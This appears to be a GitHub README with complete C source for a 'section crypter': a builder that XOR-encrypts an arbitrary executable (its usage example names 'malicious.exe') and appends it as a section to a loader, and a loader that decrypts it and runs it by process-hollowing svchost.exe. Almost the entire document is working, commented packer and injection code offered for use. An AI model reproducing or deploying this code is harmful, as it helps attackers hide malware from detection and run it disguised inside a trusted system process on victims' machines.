


# Loader -> Attach section containing PE -> Decrypt .stub -> ProcHollow
Just as the title sounds.
A builder encrypts the PE and attaches it as a section to a loader.
The loader then finds the section, decrypts the PE, and executes it via Process Hollowing the PE into another process.
## Demo
## Code
The code is pretty well commented.
Hopefully it's easily understood.
### Loader
/*
'Base' because it's designed to have an encrypted section added to it by 'builder.exe'.
Finds the added encrypted section by name, decrypts the PE, and executes it via process hollowing.
Only executes PE files
(shellcode not supported because of process hollowing used.
To execute shellcode, could execute it inside of this program without needing to prochollow/relocate etc.)
*/
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>
#define SECTION_NAME ".tie"
typedef struct BASE_RELOCATION_ENTRY
{
USHORT Offset : 12;
USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;
typedef NTSTATUS(__stdcall* t_NtUnmapViewOfSection)(HANDLE Processhandle, PVOID BaseAddress);
t_NtUnmapViewOfSection d_NtUnmapViewOfSection;
/*
Find a section by name.
Return its address and size.
*/
void* FindSectionByName(void* pe_base, char* section_name, DWORD* section_size)
{
void* section_addr = NULL;
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)pe_base;
PIMAGE_NT_HEADERS pe_header = (PIMAGE_NT_HEADERS)((size_t)pe_base + dos_header->e_lfanew);
PIMAGE_SECTION_HEADER section_header = IMAGE_FIRST_SECTION(pe_header);
printf("[*] searching for %s section \n", section_name);
// Loop through sections until the desired section -> save its address & size and exit
for (int i = 0; i < pe_header->FileHeader.NumberOfSections; i++)
{
printf("\t %s \n", section_header->Name);
if (strcmp(section_header->Name, section_name) == 0)
{
section_addr = (void*)((size_t)pe_base + section_header->VirtualAddress);
*section_size = section_header->Misc.VirtualSize;
printf("\t found %s @ 0x%p (size: %d) \n", section_name, section_addr, section_header->Misc.VirtualSize);
break;
}
section_header++;
}
return section_addr;
}
/*
Null preserving XOR function to encrypt/decrypt data.
*/
void xor_data(unsigned char* data, int data_size)
{
char key[] = { 't', 'i', 'e' };
int key_len = sizeof(key);
for (int i = 0; i < data_size; i++)
{
if ((data[i] == 0x00) || (data[i] == key[i % key_len]))
continue;
else
data[i] ^= key[i % key_len];
}
return;
}
/*
Convert VirtualAddress (address in memory) to raw address (address on disk).
Does so by finding which PE section your VirtualAddress is in,
subtracting the section's start address to find the relative virtual address,
and then adding the RVA to the start of the section on disk.
*/
DWORD va2raw(LPVOID file_buffer, DWORD va)
{
DWORD rva = 0;
DWORD raw_address = 0;
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)file_buffer;
PIMAGE_NT_HEADERS pe_header = (PIMAGE_NT_HEADERS)((DWORD_PTR)file_buffer + dos_header->e_lfanew);
PIMAGE_SECTION_HEADER section_header = IMAGE_FIRST_SECTION(pe_header);
if (va < section_header->PointerToRawData)
return va;
for (int i = 0; i < pe_header->FileHeader.NumberOfSections; i++)
{
DWORD section_start = section_header->VirtualAddress;
DWORD section_end = section_header->VirtualAddress + section_header->SizeOfRawData;
// If the provided VA is within the bounds of this current section
if (va >= section_start && va < section_end)
{
rva = va - section_start;
raw_address = section_header->PointerToRawData + rva;
break;
}
section_header += 1;
}
return raw_address;
}
/*
Get the base address of a remote process.
Doesn't use undocumented structs & functions.
Return:
On success, returns image base of target.
On failure, returns NULL.
*/
void* GetRemoteBaseAddress(HANDLE h_process, HANDLE h_thread)
{
BOOL b_ret;
void* image_base_location = NULL;
void* image_base_address = NULL;
CONTEXT remote_ctx = { 0 };
remote_ctx.ContextFlags = CONTEXT_FULL;
// get thread info about remote process
b_ret = GetThreadContext(h_thread, &remote_ctx);
if (b_ret == FALSE)
return NULL;
// read base address from registers
#ifdef _WIN64
image_base_location = (void*)(remote_ctx.Rdx + 16);
b_ret = ReadProcessMemory(h_process, image_base_location, &image_base_address, 8, NULL);
if (b_ret == FALSE)
return NULL;
#else
image_base_location = (void*)(remote_ctx.Ebx + 8);
b_ret = ReadProcessMemory(h_process, image_base_location, &image_base_address, 4, NULL);
if (b_ret == FALSE)
return NULL;
#endif
return image_base_address;
}
/*
Loop through relocation table and perform base relocations.
Uses raw addresses!
`if` statements are used to make the code position independent
(using a switch statement assembles to jmp instructions, which
prevents the code from being position independent)
*/
BOOL RelocatePE(void* pe_buf, void* new_base)
{
BOOL ok = TRUE;
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)pe_buf;
PIMAGE_NT_HEADERS pe_header = (PIMAGE_NT_HEADERS)((SIZE_T)dos_header + (SIZE_T)dos_header->e_lfanew);
PIMAGE_BASE_RELOCATION reloc_table = (PIMAGE_BASE_RELOCATION)((size_t)pe_buf + va2raw(pe_buf, pe_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress));
PIMAGE_BASE_RELOCATION reloc_block = reloc_table;
DWORD table_size = pe_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].Size;
size_t delta = (size_t)new_base - (size_t)pe_header->OptionalHeader.ImageBase;
if (delta == 0)
return ok;
printf("\t\t original base: 0x%p \n", (void*)pe_header->OptionalHeader.ImageBase);
printf("\t\t target base: 0x%p \n", new_base);
printf("\t\t delta: 0x%p \n", (void*)delta);
DWORD entries_in_block = 0;
DWORD table_position = 0;
PBASE_RELOCATION_ENTRY reloc_entry = NULL;
// Loop through blocks in relocation table
while (table_position < table_size)
{
entries_in_block = (reloc_block->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
reloc_entry = (PBASE_RELOCATION_ENTRY)(reloc_block + 1);
for (DWORD i = 0; i < entries_in_block; i++)
{
void* reloc_addr = (void*)((size_t)pe_buf + va2raw(pe_buf, reloc_block->VirtualAddress) + reloc_entry->Offset);
if (reloc_entry->Type == IMAGE_REL_BASED_HIGH)
*(WORD*)((size_t)reloc_addr + 0x2) += HIWORD(delta); // add higher 16 bits of delta to higher 16 bits at relocation address
else if (reloc_entry->Type == IMAGE_REL_BASED_LOW)
*(WORD*)reloc_addr += LOWORD(delta); // add lower 16 bits of delta to lower 16 bits at relocation address
else if (reloc_entry->Type == IMAGE_REL_BASED_HIGHLOW)
*(DWORD*)reloc_addr += delta; // add all 32bits of delta to the 32bits at relocation address
else if (reloc_entry->Type == IMAGE_REL_BASED_DIR64)
*(DWORD64*)reloc_addr += delta; // add all 64bits of delta to the 64bits at relocation address
reloc_entry += 1;
}
// Advance to next block
table_position += reloc_block->SizeOfBlock;
reloc_block = (PIMAGE_BASE_RELOCATION)((size_t)reloc_block + reloc_block->SizeOfBlock);
}
printf("\t\t done! \n");
return ok;
}
BOOL ProcessHollow(void* pe, char* target_name)
{
BOOL ok = TRUE;
BOOL b = TRUE;
NTSTATUS nt_status = 0;
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)pe;
PIMAGE_NT_HEADERS pe_header = (PIMAGE_NT_HEADERS)((size_t)pe + dos_header->e_lfanew);
PIMAGE_SECTION_HEADER section_header = NULL;
STARTUPINFOA target_si = { 0 };
PROCESS_INFORMATION target_pi = { 0 };
CONTEXT target_ctx = { 0 };
target_ctx.ContextFlags = CONTEXT_FULL;
void* source_base = (void*)pe_header->OptionalHeader.ImageBase;
void* target_base = NULL;
printf("\t[*] PE to inject: \n");
printf("\t\t buffer loaded at: 0x%p \n", pe);
printf("\t\t image base: 0x%p \n", source_base);
printf("\t\t entry point: 0x%p \n", (void*)pe_header->OptionalHeader.AddressOfEntryPoint);
// Create a suspended target process and grab its base address
printf("\t[*] target process: \n");
b = CreateProcessA(NULL, target_name, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &target_si, &target_pi);
if (b == FALSE)
{
printf("[-] failed to create suspended process: %d \n", GetLastError());
ok = FALSE;
goto cleanup;
}
target_base = GetRemoteBaseAddress(target_pi.hProcess, target_pi.hThread);
if (target_base == NULL)
{
printf("[-] failed to get base address of target process \n");
ok = FALSE;
goto cleanup;
}
printf("\t\t \"%s\" \n", target_name);
printf("\t\t image base: 0x%p \n", target_base);
/*
Relocate PE to new base,
fix imports by changing source base to target process base,
and match PE subsystem (get a 0xc0000142 if subsystems don't match)
NOTE:
I can comment out both relocating the PE and changing the source base,
and the code will still work.
I have no idea why. Implies my image rebasing is wrong? (but I don't think it is)
*/
printf("\t [*] relocating PE \n");
RelocatePE(pe, target_base);
pe_header->OptionalHeader.ImageBase = (size_t)target_base;
pe_header->OptionalHeader.Subsystem = IMAGE_SUBSYSTEM_WINDOWS_GUI;
// Hollow out target
printf("\t[*] hollowing target \n");
d_NtUnmapViewOfSection = (t_NtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("Ntdll.dll"), "NtUnmapViewOfSection");
nt_status = d_NtUnmapViewOfSection(target_pi.hProcess, target_base);
if (!NT_SUCCESS(nt_status))
{
printf("[-] failed to get hollow target @ 0x%p \n", target_base);
ok = FALSE;
goto cleanup;
}
printf("\t\t unmapped target from: 0x%p \n", target_base);
/*
Allocate memory in target,
write PE headers,
and write PE sections 1 by 1 to memory map them.
*/
target_base = VirtualAllocEx(target_pi.hProcess, target_base, pe_header->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (target_base == NULL)
{
printf("[-] failed to allocate memory in target @ 0x%p \n", target_base);
ok = FALSE;
goto cleanup;
}
printf("\t\t allocated RWX memory in target at: 0x%p \n", target_base);
b = WriteProcessMemory(target_pi.hProcess, target_base, pe, pe_header->OptionalHeader.SizeOfHeaders, NULL);
if (b == FALSE)
{
printf("\t failed to write PE headers to 0x%p \n", target_base);
ok = FALSE;
goto cleanup;
}
printf("\t\t wrote PE headers to 0x%p \n", target_base);
printf("\t\t sections: \n");
section_header = IMAGE_FIRST_SECTION(pe_header);
LPVOID section_address = NULL;
LPVOID write_address = NULL;
for (DWORD i = 0; i < pe_header->FileHeader.NumberOfSections; i++)
{
section_address = (LPVOID)((DWORD_PTR)pe + section_header->PointerToRawData);
write_address = (LPVOID)((DWORD_PTR)target_base + section_header->VirtualAddress);
b = WriteProcessMemory(target_pi.hProcess, write_address, section_address, section_header->SizeOfRawData, 0);
if (b == FALSE)
{
printf("\t\t failed to write %s to 0x%p \n", section_header->Name, write_address);
ok = FALSE;
goto cleanup;
}
printf("\t\t\t wrote %s to 0x%p \n", section_header->Name, write_address);
section_header += 1;
}
// Grab registers from target process
/*
Grab registers from target process,
copy our injected PE's entry point into the target process's register,
- for 32bit, the entry point is copied into EAX
- for 64bit, it goes in RCX
and execute our injected PE by resuming the target process.
*/
b = GetThreadContext(target_pi.hThread, &target_ctx);
if (b == FALSE)
{
printf("[-] failed to grab registers of target process: %d \n", GetLastError());
ok = FALSE;
goto cleanup;
}
#ifdef _WIN64
target_ctx.Rcx = (size_t)target_base + pe_header->OptionalHeader.AddressOfEntryPoint;
printf("\t[*] copied source entry point into RCX: 0x%p \n", (LPVOID)target_ctx.Rcx);
#else
target_ctx.Eax = (size_t)target_base + pe_header->OptionalHeader.AddressOfEntryPoint;
printf("\t[*] copied source entry point into EAX: 0x%p \n", (LPVOID)target_ctx.Eax);
#endif
printf("\t[*] resuming execution... \n");
SetThreadContext(target_pi.hThread, &target_ctx);
ResumeThread(target_pi.hThread);
cleanup:
CloseHandle(target_pi.hProcess);
CloseHandle(target_pi.hThread);
printf("\t[*] done! \n");
return ok;
}
int main(void)
{
BOOL b = FALSE;
void* pe = NULL;
DWORD pe_size = 0;
printf("# SECTION CRYPTER - loader\n");
printf("Imma extract your encrypted PE and execute it for you, gimme a sec would ya? \n\n");
pe = FindSectionByName(GetModuleHandleA(NULL), SECTION_NAME, &pe_size);
if (pe == NULL)
{
printf("[-] failed to find the %s section \n\tthis could be just the base file. \n\thave you built a crypted binary yet? \n", SECTION_NAME);
return 1;
}
// Mark memory as r/w/x and decrypt data.
DWORD old_protect = 0;
b = VirtualProtect(pe, pe_size, PAGE_EXECUTE_READWRITE, &old_protect);
if (b == FALSE)
{
printf("[-] failed to mark memory as executable: %d \n", GetLastError());
return 1;
}
printf("[+] marked memory as EXECUTE_READWRITE \n");
xor_data(pe, pe_size);
printf("[+] decrypted PE \n");
/*
Execute PE via process hollowing
A 32bit version of this binary will open a 32bit svchost.exe
A 64bit version will open a 64bit svchost.exe
*/
char target_process[] = "C:\\Windows\\System32\\svchost.exe";
printf("[*] process hollowing... \n");
ProcessHollow(pe, target_process);
return 0;
}
### Builder
/*
# section_crypter Builder
Open a PE file and add a section to it.
Write out the modified PE to a new file.
*/
#include <stdio.h>
#include <Windows.h>
#define SECTION_NAME ".tie"
/*
Make sure to call free(file_buffer) after you're done.
*/
void* ReadFileIntoBuffer(char* file_name, OUT DWORD* file_buffer_size)
{
void* file_buffer = NULL;
BOOL b = TRUE;
HANDLE h_file = NULL;
DWORD file_size = 0;
// Open target file
h_file = CreateFileA(file_name, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (h_file == INVALID_HANDLE_VALUE)
{
printf("[-] failed to open target file: %d \n", GetLastError());
goto cleanup;
}
// Get file size
file_size = GetFileSize(h_file, NULL);
(*file_buffer_size) = file_size;
// Create buffer to read file into
file_buffer = malloc(file_size);
// Read file into buffer
b = ReadFile(h_file, file_buffer, file_size, NULL, NULL);
if (b == FALSE)
{
printf("[-] failed to read file into buffer: %d \n", GetLastError());
free(file_buffer);
goto cleanup;
}
cleanup:
if (h_file) CloseHandle(h_file);
return file_buffer;
}
/*
Null preserving XOR function to encrypt/decrypt bytes.
*/
void xor_bytes(unsigned char* data, int data_size)
{
char key[] = { 't', 'i', 'e' };
int key_len = sizeof(key);
for (int i = 0; i < data_size; i++)
{
if ((data[i] == 0x00) || (data[i] == key[i % key_len]))
continue;
else
data[i] ^= key[i % key_len];
}
return;
}
DWORD align(DWORD curr_value, DWORD align_value, size_t target_addr)
{
if (!(curr_value % align_value))
return target_addr + curr_value;
return target_addr + (curr_value / align_value + 1) * align_value;
}
/*
Add a new section to the end of a PE file
and write the modified PE out to a new file.
Written as 1 large function because it makes resizing the PE buffer to store the new data easier.
Parameters:
char* pe_infile - file path to the PE file to open
char* pe_outfile - path of the new PE to write out
void* data_buf - the data to add to the section
DWORD data_size - the size of the data to add
char* new_sectionname - name of the new section
*/
BOOL AppendSectionToPEFile(char* pe_infile, char* pe_outfile, char* data_buf, DWORD data_size, char* new_sectionname)
{
BOOL ok = TRUE;
BOOL b = FALSE;
// Open target PE file & read into buffer
HANDLE h_infile = NULL;
HANDLE h_outfile = NULL;
DWORD pe_size = 0;
void* pe_buf = NULL;
h_infile = CreateFileA(pe_infile, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (h_infile == INVALID_HANDLE_VALUE)
{
printf("[-] failed to open target PE file: %d \n", GetLastError());
ok = FALSE;
goto cleanup;
}
pe_size = GetFileSize(h_infile, NULL);
pe_buf = malloc(pe_size);
b = ReadFile(h_infile, pe_buf, pe_size, NULL, NULL);
if (b == FALSE)
{
printf("[-] failed to read file into buffer: %d \n", GetLastError());
ok = FALSE;
goto cleanup;
}
// Check it's a valid PE
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)pe_buf;
PIMAGE_NT_HEADERS pe_header = (PIMAGE_NT_HEADERS)((size_t)pe_buf + dos_header->e_lfanew);
PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(pe_header);
PIMAGE_SECTION_HEADER last_section = (IMAGE_FIRST_SECTION(pe_header) + pe_header->FileHeader.NumberOfSections) - 1;
PIMAGE_SECTION_HEADER new_section = last_section + 1;
if (dos_header->e_magic != IMAGE_DOS_SIGNATURE)
{
printf("[-] PE infile not a valid DOS file \n");
goto cleanup;
}
if (pe_header->Signature != IMAGE_NT_SIGNATURE)
{
printf("[-] infile is not a valid PE file \n");
goto cleanup;
}
// Write new section info into PE header
memset(new_section, 0, sizeof(IMAGE_SECTION_HEADER));
memcpy_s(new_section->Name, 8, new_sectionname, 8); // max section name length is 8 bytes
new_section->Misc.VirtualSize = align(data_size, pe_header->OptionalHeader.SectionAlignment, 0);
new_section->VirtualAddress = align(last_section->Misc.VirtualSize, pe_header->OptionalHeader.SectionAlignment, last_section->VirtualAddress);
new_section->SizeOfRawData = align(data_size, pe_header->OptionalHeader.FileAlignment, 0);
new_section->PointerToRawData = align(last_section->SizeOfRawData, pe_header->OptionalHeader.FileAlignment, last_section->PointerToRawData);
new_section->Characteristics = IMAGE_SCN_CNT_INITIALIZED_DATA | IMAGE_SCN_MEM_READ;;
// Update PE header with +1 section and increased size
pe_header->FileHeader.NumberOfSections += 1;
pe_header->OptionalHeader.SizeOfImage = pe_header->OptionalHeader.SizeOfImage + data_size;
/*
Resize PE buffer to store new data
New size should be (pe_size + data_size after alignment)
(pe_size + data_size) doesn't allocate enough space.
Therefore, SizeOfRawData is used because it's aligned.
*/
DWORD final_pe_size = pe_size + new_section->SizeOfRawData;
void* tmp_pointer = realloc(pe_buf, final_pe_size);
if (tmp_pointer == NULL)
goto cleanup;
else
pe_buf = tmp_pointer;
// Write data into new section
void* rawdata_addr = (void*)((size_t)pe_buf + new_section->PointerToRawData);
memset(rawdata_addr, 0, new_section->SizeOfRawData);
memcpy_s(rawdata_addr, new_section->SizeOfRawData, data_buf, data_size);
// Write buffer out to new file
h_outfile = CreateFileA(pe_outfile, GENERIC_READ | GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
if (h_outfile == INVALID_HANDLE_VALUE)
{
printf("[-] failed to create output file: %d \n", GetLastError());
ok = FALSE;
goto cleanup;
}
DWORD bytes_written = 0;
b = WriteFile(h_outfile, pe_buf, final_pe_size, &bytes_written, NULL);
if (b == FALSE)
{
printf("[-] failed to write buffer out to file: %d \n", GetLastError());
ok = FALSE;
goto cleanup;
}
cleanup:
if (h_infile) CloseHandle(h_infile);
if (h_outfile) CloseHandle(h_outfile);
if (pe_buf) free(pe_buf);
return ok;
}
int main(int argc, char* argv[])
{
BOOL b = FALSE;
printf("# SECTION CRYPTER - builder \n");
printf("- if crypting a 32bit .exe, use the 32bit builder and 32bit base.exe \n");
printf("- if crypting a 64bit .exe, use the 64bit builder and 64bit base.exe \n\n");
if (argc != 4)
{
printf("[!] not enough arguments \n");
printf("usage: </path/to/target/pe.exe> </path/to/base.exe> </path/to/outfile.exe> \n");
printf("examp: malicious.exe base.exe C:\\Users\\Bob\\Desktop\\crypted.exe \n");
return 1;
}
char* crypt_target = argv[1];
char* base_file = argv[2];
char* outfile = argv[3];
DWORD data_size = 0;
void* data = ReadFileIntoBuffer(crypt_target, &data_size);
if (data == NULL)
{
printf("[-] failed to read file to be crypted into buffer \n");
return 1;
}
xor_bytes(data, data_size);
b = AppendSectionToPEFile(base_file, outfile, data, data_size, SECTION_NAME);
if (b == FALSE)
return 1;
printf("[+] done! \n");
printf("[*] added %s to %s \n", SECTION_NAME, outfile);
return 0;
}